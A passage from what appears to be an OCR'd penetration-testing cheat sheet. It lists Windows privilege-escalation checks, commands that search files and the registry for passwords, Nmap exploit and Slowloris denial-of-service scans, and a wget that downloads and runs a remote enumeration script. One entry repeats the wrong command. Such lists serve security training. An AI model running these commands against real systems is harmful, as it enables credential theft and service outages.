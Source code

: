     *   DRIVERQUERY

    *   reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

    *   reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

    *   dir /s _pass_ == _cred_ == _vnc_ == _.config_

    *   findstr /si password *.xml *.ini *.txt

    *   reg query HKLM /f password /t REG_SZ /s

    *   reg query HKCU /f password /t REG_SZ /s

*   Vulnerability Scanning with Nmap

*   Nmap Exploit Scripts  
    [_https://nmap.org/nsedoc/categories/exploit.html_](http://web.archive.org/web/20171113221652/https://nmap.org/nsedoc/categories/exploit.html)

*   Nmap search through vulnerability scripts  
    `cd /usr/share/nmap/scripts/ ls -l \*vuln\*`

*   Nmap search through Nmap Scripts for a specific keyword  
    `ls /usr/share/nmap/scripts/\* | grep ftp`

*   Scan for vulnerable exploits with nmap  
    `nmap --script exploit -Pn $ip`

*   NMap Auth Scripts  
    [_https://nmap.org/nsedoc/categories/auth.html_](http://web.archive.org/web/20171113221652/https://nmap.org/nsedoc/categories/auth.html)

*   Nmap Vuln Scanning  
    [_https://nmap.org/nsedoc/categories/vuln.html_](http://web.archive.org/web/20171113221652/https://nmap.org/nsedoc/categories/vuln.html)

*   NMap DOS Scanning  
    `nmap --script dos -Pn $ip NMap Execute DOS Attack nmap --max-parallelism 750 -Pn --script http-slowloris --script-args http-slowloris.runforever=true`

*   Scan for coldfusion web vulnerabilities  
    `nmap -v -p 80 --script=http-vuln-cve2010-2861 $ip`

*   Anonymous FTP dump with Nmap  
    `nmap -v -p 21 --script=ftp-anon.nse $ip-254`

*   SMB Security mode scan with Nmap  
    `nmap -v -p 21 --script=ftp-anon.nse $ip-254`

*   File Enumeration

    *   Find UID 0 files root execution

    *   `/usr/bin/find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \\; 2>/dev/null`

    *   Get handy linux file system enumeration script (/var/tmp)  
        `wget https://highon.coffee/downloads/linux-local-enum.sh` `chmod +x ./linux-local-enum.sh` `./linux-local-enum.sh`
